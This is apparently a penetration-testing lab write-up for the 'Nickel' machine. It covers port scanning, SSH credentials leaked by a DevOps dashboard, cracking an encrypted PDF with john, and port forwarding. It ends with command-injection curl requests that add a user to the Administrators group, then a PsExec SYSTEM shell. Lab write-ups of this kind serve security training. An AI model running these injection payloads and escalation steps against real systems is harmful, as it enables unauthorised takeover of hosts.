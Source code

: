 ```yaml
---
description: 11-09-2022
---
```


# Nickel (Intermediate)

<figure><img src="../../../.gitbook/assets/image (3) (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8684fdd5432705cfa7f2e9e27570d5f3 (RSA)
|   256 9c93cf48a94e70f460dee1a9c2c0b6ff (ECDSA)
|_  256 004ed73b0f9fe3744d04990bb18bdea5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-10T02:03:11+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-09T01:58:19
| Not valid after:  2023-05-11T01:58:19
| MD5:   ae87078529cc1047117f9699a5364c3c
|_SHA-1: 254de154bbf9a8bcc47973866f5187715b4341bc
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-11-10T02:02:04+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Enumerated UDP ports:

```
1000 open|filtered udp ports (no-response)
```

Notes:

* 21/FTP - HTA attack or other client-side attack? Permissions? Version
* 3389/RDP - <mark style="color:yellow;">Product\_Version: 10.0.18362</mark>
* 8089/HTTP - DevOps Dashboard
* 33333/HTTP - Blank as of discovery; "invalid token"

## Enumeration

### Port 8089 - HTTP "DevOps Dashboard"

<figure><img src="../../../.gitbook/assets/image (1) (5) (2).png" alt=""><figcaption></figcaption></figure>

* Let's check out List Running Processes as it seems the most interesting

### Unable to Connect

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Let's change the IP to the target's and try again:

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Interesting, the server is reporting that it cannot "GET" the directory
* What if we sent it a POST?

POST Request:

<figure><img src="../../../.gitbook/assets/image (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SSH Enumeration

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Credentials:

User: ariah

Password: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

* Base64 encoding?

<figure><img src="../../../.gitbook/assets/image (18) (4).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">ariah:NowiseSloopTheory139</mark>

Connecting to host via SSH:

```
ssh ariah@192.168.81.99
password: NowiseSloopTheory139
```

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Sensitive Information Disclosure

* The list-running-procs function within the poorly configured web app pointed me to SSH credentials which granted me initial foothold of the victim machine

## Privilege Escalation

### Local enumeration

* Interesting file in <mark style="color:yellow;">C:/ftp/infrastructure.pdf</mark>
* <mark style="color:yellow;">Unable to utilize SMB or HTTP for file transfer, remembered SSH was open and utilized SCP for file transfer</mark>

### SCP File Transfer

```
scp ariah@192.168.81.99:C:/ftp/infrastructure.pdf .
ariah@192.168.81.99's password: NowiseSloopTheory139

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00 
```

* We can now access Infrastructure.pdf from our Kali box

Opening PDF:

<figure><img src="../../../.gitbook/assets/image (14) (1) (3).png" alt=""><figcaption></figcaption></figure>

* However, when I'm trying to open it, we find out that it is encrypted
  * Sounds like a <mark style="color:yellow;">pdf2john</mark> kind of mission

### pdf2john -- infrastructure.pdf

```
pdf2john Infrastructure.pdf > Infrastructure.hash
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*14350d814f7c974db9234e3e719e360b*32*6aa1a24681b93038947f76796470dbb100000000000000000000000000000000*32*d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
```

Cracking:

```
john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure.hash

ariah4168        (Infrastructure.pdf)
```

* Successfully cracked password!
* <mark style="color:yellow;">ariah4168</mark>

<figure><img src="../../../.gitbook/assets/image (2) (5) (3).png" alt=""><figcaption></figcaption></figure>

### Network Enumeration

* We can see that there is an internal web server running on port 80
* Let's use SSH to port forward it so we can access it on Kali

<figure><img src="../../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### SSH Portforward

```
ssh -f -N -L <kali-bind-ip>:<kali-tcp-port>:<target-side-ip>:<target-tcp-port> username@target-ip

ssh -f -N -L 127.0.0.1:8080:127.0.0.1:80 ariah@192.168.81.99
```

<figure><img src="../../../.gitbook/assets/image (5) (8) (1).png" alt=""><figcaption></figcaption></figure>

* If we refer back to the pdf, there is a command injection endpoint at the root level

```
curl 'http://localhost:8080/?whoami'

nt authority\system
```

* Wow, the web server is running as SYSTEM

Add user ariah to the Administrator group:

```
curl 'http://localhost:1337/?Add-LocalGroupMember%20-Group%20Administrators%20-Member%20ariah'
```

Add psexec to the target with SCP:

{% embed url="https://download.sysinternals.com/files/PSTools.zip" %}

On Kali:

```
scp PsExec64.exe ariah@192.168.81.99:C:/ftp/
```

On Windows Target:

```
PsExec64.exe -accepteula -s cmd.exe
```

## Proof

<figure><img src="../../../.gitbook/assets/image (4) (5) (2).png" alt=""><figcaption></figcaption></figure>
